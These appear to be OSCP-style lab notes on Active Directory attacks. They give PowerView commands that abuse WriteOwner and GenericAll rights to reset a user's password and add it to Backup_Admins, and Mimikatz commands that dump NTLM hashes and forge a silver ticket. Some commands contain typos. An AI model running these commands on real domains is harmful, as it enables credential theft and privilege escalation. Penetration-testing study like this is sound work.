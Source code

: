 ## Write Owner Privilge:

  We have access to `nico` user and we have WriteOwner Privilege to `Herman` user use command
  
  ```powershell
  Powerview> Set-DomainObjectOwner -Identity 'target_object[nico]' -OwnerIdentity 'controlled_principal[Herman]'
 ```
 And we can also own and reset the `Herman` User password
 
 ```powershell
  Powerview> Add-DomainObjectAcl -TargetIdentity Herman -PrincipleIdentity nico -Rights ResetPassword
 ```

 Now re-run the bloodHound And Now you can see the `nico` user owns and he can change the password of `Herman`

 Now try to change the `Herman` user password !!
 
 ```powershell

  $pass = ConvertTo-SecureString 'Password@123' -AsPlainText -Force

  SetDomainUserPassword Herman -AccountPassword $pass -Verbose
```

 Now the `Herman` is a user and he have `GenericAll` permissions on `BackUp Admins Group` Let's Add Herman to Backup Admins Group!!
 
 ```powershell
 PS> Get-DomainGroup -MemberIdentity Herman | select samaccountname
```
We already have the password ($pass) so start with the other commands !!
```powershell
   PS> $cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
   PS> Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
   PS> Get-DomainGroup -MemberIdentity Herman | select samaccountname
```
   Now we `Herman` is part of `Backup_Admins`!!

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

## Silver Tickets

Take an example we are user `john` and we are unabel to access the web01.corp.com and this is connected to the SPN user called `iis_service` example..
to access that webpage ..

![image](https://github.com/kullaisec/OSCP/assets/99985908/17d0a761-91e2-415a-af6f-eed318a54fce)

- Obtaining hash of an SPN user using Mimikatz
```javascript
privilege::debug
sekurlsa::logonpasswords #obtain NTLM hash of the SPN account here
```
- Obtaining Domain SID
```javascript
PS> whoami /user
# this gives SID of the user that we're logged in as. If the user SID is "S-1-5-21-1987370270-658905905-1781884369-1105" then the domain   SID is "S-1-5-21-1987370270-658905905-1781884369"
```
- Forging silver ticket Ft Mimikatz
```javascript
kerberos::golden /sid:<domainSID> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user or any domain user>
exit
```
#### Here the service is http !!
